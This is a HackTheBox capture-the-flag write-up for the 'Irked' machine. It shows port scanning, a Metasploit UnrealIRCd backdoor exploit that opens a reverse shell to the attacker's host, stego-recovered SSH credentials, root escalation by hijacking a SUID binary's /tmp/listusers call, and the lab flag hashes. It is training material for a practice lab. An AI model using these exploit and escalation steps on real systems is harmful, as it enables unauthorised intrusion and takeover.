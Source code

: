 ```yaml
---
layout: post
title: Hackthebox Irked Writeup
categories: HackTheBox
---
```


<img src="/public/images/2019-04-27/irked_badge.png"><br>
## Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has bunch of vulnerable machines in its own VPN.
This is a write-up of machine "Irked" on that website.

## Solution
### 1. Initial Enumeration
Port Scanning:
{% highlight shell %}
root@kali:~# nmap -p- 10.10.10.117 -sV -sC
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-29 23:55 EET
Nmap scan report for 10.10.10.117
Host is up (0.037s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          38929/tcp  status
|_  100024  1          55964/udp  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
38929/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.62 seconds
{% endhighlight %}

Gobuster HTTP:
{% highlight shell %}
root@kali:~# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s '200,204,301,302,403' -u http://10.10.10.117/

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.117/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,403
[+] Timeout      : 10s
=====================================================
2019/04/14 18:02:39 Starting gobuster
=====================================================
/manual (Status: 301)
/server-status (Status: 403)
=====================================================
2019/04/14 18:15:34 Finished
=====================================================
{% endhighlight %}

### 2. Getting User
We can find a vulnerability of "UnrealIRC" on Exploit database.
{% highlight shell %}
root@kali:~# searchsploit unrealirc
--------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                         |  Path
                                                                                       | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------- ----------------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                           | exploits/linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                | exploits/windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                         | exploits/linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                              | exploits/windows/dos/27407.pl
--------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

To execute the exploit, launch metasploit console.
{% highlight shell %}
msf5 > use exploit/unix/irc/unreal_ircd_3281_backdoor 
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rhost 10.10.10.117
rhost => 10.10.10.117
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rport 6697
rport => 6697
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 10.10.14.23:4444 
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Uccg9OJybaPvTmSP;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "Uccg9OJybaPvTmSP\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.23:4444 -> 10.10.10.117:51673) at 2019-04-14 17:49:40 +0300

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
{% endhighlight %}

In directory "/home/djmardov/Documents", we can find user.txt and interesting file ".backup".<br>
Since we're not use djmardov, we don't have a permission to read user.txt
{% highlight shell %}
pwd
/home/djmardov/Documents
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3 04:40 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
{% endhighlight %}

Sounds the content of .backup is password for "steganography"
{% highlight shell %}
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
{% endhighlight %}

On the top page of port 80, we can find a image file "irked.jpg"
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-04-27/2019-04-14-18-42-16.png)

We can use <a href=''>this website</a> to decode the data of irked.jpg.<br>
The data achieved is "Kab6h+m+bbp2J:HG".<br>
{% highlight shell %}
djmardov:Kab6h+m+bbp2J:HG
{% endhighlight %}

We can take advantage of the credential above for ssh connection.
{% highlight shell %}
root@kali:~# ssh djmardov@10.10.10.117
djmardov@10.10.10.117's password: 

~~~

Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$ 
{% endhighlight %}

unlike other boxes, user.txt in in a directory "Documents".
{% highlight shell %}
djmardov@irked:~$ cat Documents/user.txt
4a66a78b12dc0e661a59d3f5c0267a8e
{% endhighlight %}

### 3. Getting Root
By enumeration, we can find some binary files which have SUID.
{% highlight shell %}
djmardov@irked:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
{% endhighlight %}

We can see an unordinary binary file "viewuser".
{% highlight shell %}
djmardov@irked:~$ /usr/bin/viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-11 15:02 (:0)
djmardov pts/0        2019-04-14 11:05 (10.10.14.23)
sh: 1: /tmp/listusers: not found
{% endhighlight %}

Sounds like we need an input for "viewuser" and shell tries to execute it.<br>
Then put a command to "/tmp/listusers". We can confirm it is executed.
{% highlight shell %}
djmardov@irked:~$ echo /bin/bash > /tmp/listusers
djmardov@irked:~$ chmod 777 /tmp/listusers
djmardov@irked:~$ /usr/bin/viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-23 17:05 (:0)
djmardov pts/0        2019-04-27 15:35 (10.10.14.23)
root@irked:~#
{% endhighlight %}

root.txt is in a directory "/root/".
{% highlight shell %}
root@irked:~# cat /root/root.txt
8d8e9e8be64654b6dccc3bff4522daf3
{% endhighlight %}
